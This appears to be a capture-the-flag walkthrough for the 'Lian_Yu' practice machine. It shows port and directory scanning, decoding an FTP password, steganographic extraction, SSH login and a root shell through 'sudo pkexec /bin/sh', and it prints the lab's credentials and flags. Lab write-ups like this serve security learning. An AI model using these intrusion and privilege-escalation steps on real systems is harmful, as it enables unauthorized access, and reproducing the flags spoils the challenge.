


# Lian_Yu

## What is the Web Directory you found?

- Scan port
    
    ```bash
    sudo nmap -sV -A -n -O 10.10.9.36
    ```
    
    > ftp
    ssh
    http
    > 
- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36 -w wordlist/dirbuster/directory-2-medium.txt
    ```
    
    > island
    > 
    - <h2 style="color:white"> vigilante</h2>
- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36/island -w wordlist/dirbuster/directory-2-medium.txt
    ```
    
    > 2100
    > 
    - <!-- you can avail your .ticket here but how? -→

---

## What is the file name you found?

- Scan directory
    
    ```bash
    gobuster -u 10.10.9.36/island/2100 -w wordlist/dirbuster/directory-2-medium.txt -x ticket
    ```
    
    > /green_arrow.ticket (Status: 200)
    > 
    - `RTy8yhBQdscX`

---

## What is the FTP Password?

- `RTy8yhBQdscX`

<aside>
💡 HIT
     Looks like base? [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

</aside>

- From base58
    - `!#th3h00d`

---

## What is the file name with SSH password?

- Login fpt
    
    ```bash
    fpt 10.10.9.36
    vigilante
    !#th3h00d
    ```
    
- Get files
    
    ```bash
    ls -la
    get .other_user
    get Leave_me_alone.png
    get Queen's_Gambit.png
    get aa.jpg
    exit
    ```
    
- Scan images
    - exiftool
        - See the properties
            
            ```bash
            sudo apt install exiftool
            ```
            
        - Sintaxe
            
            ```bash
            exiftool <file>
            ```
            
    
    ---
    
    - Scan
        
        ```bash
        exiftool aa.jpg
        exiftool Leave_me_alone.png
        ```
        
        > Error : File format error
        > 
    
    ---
    
    - Signature png
        - [https://en.wikipedia.org/wiki/List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
        
        ```bash
        Ctrl + f + png
        ```
        
        - `89 50 4E 47 0D 0A 1A 0A‰PNG␍␊␚␊`0
        png
        Image encoded in the Portable Network Graphics format[21]
    
    ---
    
    - hexedit
        - See hex
            
            ```bash
            sudo apt install hexedit
            ```
            
        - Sintaxe
            
            ```bash
            hexedit <file>
            ```
            
        - hexedit Leave_me_alone.png
        - Paste signature png
            
            
            
        - Save
    
    ---
    
    
    
    ---
    
    - Extract files
        - steghide
            - Extract files from inside another file
                
                ```bash
                sudo apt install steghide
                ```
                
            - Sintaxe
                
                ```bash
                To embed emb.txt in cvr.jpg: steghide embed -cf cvr.jpg -ef emb.txt
                To extract embedded data from stg.jpg: steghide extract -sf stg.jpg
                ```
                
                ```bash
                steghide extract -sf file.jpg
                ```
                
        
        ---
        
        - Extract files
            
            ```bash
            steghide extract -sf aa.jpg
            password
            unzip ss.zip
            cat shado
            ```
            
        
- `shado`

---

## user.txt

- cat .other_user
    - Slade Wilson was 16 years old when he enlisted in the […]
- slade M3tahuman
    
    ```bash
    ssh slade@10.10.9.36
    M3tahuman
    cat user.txt
    ```
    
- `THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}`

---

## root.txt

```bash
sudo -l -l
```

> /usr/bin/pkexec
> 
- [https://gtfobins.github.io/gtfobins/pkexec/](https://gtfobins.github.io/gtfobins/pkexec/)
    
    ```bash
    sudo pkexec /bin/sh
    sudo su
    cat root.txt
    ```
    
- `THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}`